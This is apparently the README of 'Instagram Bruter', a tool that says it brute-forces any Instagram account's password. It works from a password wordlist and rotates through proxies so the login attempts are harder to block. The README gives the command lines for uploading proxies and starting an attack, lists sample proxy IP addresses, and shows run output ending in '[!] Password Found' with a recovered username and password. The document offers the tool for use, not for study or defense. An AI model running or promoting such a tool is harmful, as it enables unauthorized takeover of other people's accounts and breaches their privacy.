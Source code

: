 # Instagram Bruter
This program will brute force any Instagram account you send it its way given a list of proxies.

# Proxies 
The system needs a list of proxies to work. Once uploaded, proxies are saved into a database.

# Upload
Upload a list of proxies into the program. The proxy file must have a format of ip:port
proxies_list.txt
```
python.exe .../instagram.py -px .../proxies_list.txt
```
```
172.67.190.88:80
172.64.18.156:80
98.162.25.7:31653
98.178.72.21:10919
```

# Stats
This gives an insight into the health of the proxies in the database.
```
.../python.exe .../instagram.py --stats
```

# Usage
python instagram.py -u <username> -p <passlist>

# Run
[-] Wordlist: passlist.txt
[-] Username: sss.1
[-] Password: 272
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True

# Stop
[-] Wordlist: passlist.txt
[-] Username: sss.1
[-] Password: sss.123
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: sss.1
[+] Password: sss.123
